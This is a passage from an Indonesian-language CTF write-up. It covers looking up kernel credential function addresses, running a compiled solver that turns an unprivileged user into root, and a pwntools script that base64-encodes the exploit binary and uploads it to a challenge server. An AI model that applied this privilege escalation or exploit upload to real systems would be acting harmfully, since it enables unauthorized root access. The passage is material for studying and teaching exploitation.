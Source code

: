 Dalam beberapa kasus address dari prepare_kernel_cred dan commit_cred bisa berbeda, untuk mengetahui address dari prepare_kernel_cred dan commit_cred, kita bisa jalankan command seperti berikut:

```
# cat /proc/kallsyms | grep prepare_kernel_cred
c0365d3c T prepare_kernel_cred
# cat /proc/kallsyms | grep commit_cred
0xc0365e3c T commit_cred
```

Untuk address dari fungsi payload bisa didapatkan dengan menjalankan command `arm-linux-gnueabi-objdump -D solv | grep payload`.

kita compile dengan command yang sama seperti sebelumnya 

```
arm-linux-gnueabi-gcc -static solv.c -o solv
```

pindahkan file solv ke folder initramfs dan jalankan launch.sh. 

Jika sudah kita bisa perlu berpindah sebagai user ctf terlebih dahulu untuk mengetahui apakah kita bisa melakukan privilege escalation atau tidak 

```
# id
uid=0(root) gid=0(root)
# su ctf
$ id
uid=1000(ctf) gid=1000(ctf)
$ /solv
# id
uid=0(root) gid=0(root)
# cat /flag
KCKS{REDACTED}
```

Eksploit kita sudah berjalan di local, namun bagaimana caranya mendapatkan exploit di server? kita perlu ubah compiled binary kita menjadi base64 dan mengirimkanya ke server, berikut adalah code untuk mengotomasi hal tersebut

```py
from pwn import *
import time, os

p = remote("103.152.118.49", 33481) # ubah sesuai IP dan port yang ada di soal

os.system("tar -czvf exp.tar.gz ./solv") # ubah ./solv sesuai nama solver masing masing
os.system("base64 exp.tar.gz > b64_exp")

f = open("./b64_exp", "r")

p.sendline()
p.recvuntil(b"~ $")
p.sendline(b"echo '' > b64_exp;")

count = 1
while True:
    print('now line: ' + str(count))
    line = f.readline().replace("\n","")
    if len(line)<=0:
        break
    cmd = b"echo '" + line.encode() + b"' >> b64_exp;"
    p.sendline(cmd) # send lines
    time.sleep(0.01)
    p.recvuntil("~ $")
    count += 1
f.close()

```